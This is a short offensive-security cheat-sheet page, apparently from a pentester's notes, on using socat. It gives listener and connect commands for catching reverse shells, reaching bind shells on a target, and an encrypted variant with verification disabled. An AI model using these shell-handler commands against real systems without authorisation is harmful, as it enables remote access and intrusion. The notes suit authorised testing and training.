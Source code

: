 # Socat

Checking a remote connection with verbosed debug.

```
$ socat -dddd - tcp4:<remote_IP>:<remote_PORT>
```

Note: Using root privileges to bind a listener to ports below 1024.

## 01 - Reverse Shell

```
$ socat file:`tty`,raw,echo=0 tcp-listen:<PORT>

$ socat -d -d TCP4-LISTEN:443 STDOUT
```

## 02 - Bind Shell

TODO: Make another shell handler for UDP

```
$ socat file:`tty`,raw,echo=0 tcp:<target_IP>:<target_PORT>
```

### 2.1 - Encrypted Bind Shell

```
$ socat - OPENSSL:<target_IP>:<target_PORT>,verify=0
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/One-Liners/Linux/Reverse Shells/Socat|Socat: Reverse Shell]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/One-Liners/Linux/Bind Shells/Socat|Socat: Bind Shell]]